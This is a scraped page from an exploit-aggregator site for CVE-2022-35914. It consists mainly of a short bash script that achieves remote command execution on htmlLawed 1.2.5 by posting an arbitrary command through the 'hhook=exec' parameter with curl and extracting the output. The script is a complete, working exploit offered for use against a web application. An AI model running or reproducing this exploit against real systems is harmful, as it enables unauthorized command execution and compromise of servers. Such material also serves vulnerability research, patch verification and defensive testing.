 ```yaml
---
title: htmlLawed 1.2.5 Remote Command Execution exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:178425&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-05-03
fetch_date: 2025-10-06T17:14:20.654126
---
```


# htmlLawed 1.2.5 Remote Command Execution exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for htmlLawed 1.2.5 Remote Command Execution CVE-2022-35914

2024-05-02 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:178425
#!/bin/bash

# Exploit Title: htmlLawed <= 1.2.5 - Remote Code Execution

# Date: 2024-05-02
# Exploit Author: Miguel Redondo (aka d4t4s3c)
# Vendor Homepage: https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed
# Software Link: https://github.com/kesar/HTMLawed
# Version: <= 1.2.5
# Tested on: Linux
# Category: Web Application
# CVE: CVE-2022-35914

while getopts ":u:c:" arg; do
case ${arg} in
u) url=${OPTARG}; let parameter_counter+=1 ;;
c) cmd=${OPTARG}; let parameter_counter+=1 ;;
esac
done

if [ -z "${url}" ] || [ -z "${cmd}" ]; then
echo -e "\n[*] htmlLawed <= 1.2.5 - Remote Code Execution"
echo -e "\n[-] Usage: CVE-2022-35914.sh -u <url> -c <cmd>\n"
exit 1
else
echo -e "\n[*] htmlLawed <= 1.2.5 - Remote Code Execution"
echo -e "\n[+] Executing Command: ${cmd}\n"
cmd_output=$(curl -s -d "sid=foo&hhook=exec&text=${cmd}" -b "sid=foo" ${url} | egrep '\&nbsp; \[[0-9]+\] =\>' | sed -E 's/\&nbsp; \[[0-9]+\] =\> (.*)<br \/>/\1/')
echo -e "${cmd_output}\n"
exit 0
fi
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)